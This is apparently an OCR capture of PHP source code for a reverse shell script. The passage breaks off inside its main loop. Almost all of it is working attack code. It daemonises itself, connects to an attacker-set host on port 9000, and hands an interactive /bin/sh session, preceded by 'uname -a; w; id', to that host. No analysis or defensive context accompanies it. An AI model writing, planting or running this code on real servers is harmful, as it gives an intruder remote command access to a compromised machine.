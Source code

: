 ```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '<host>';  // CHANGE THIS
$port = 9000;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	if ($pid) {
		exit(0);
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}
chdir("/");
umask(0);
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
```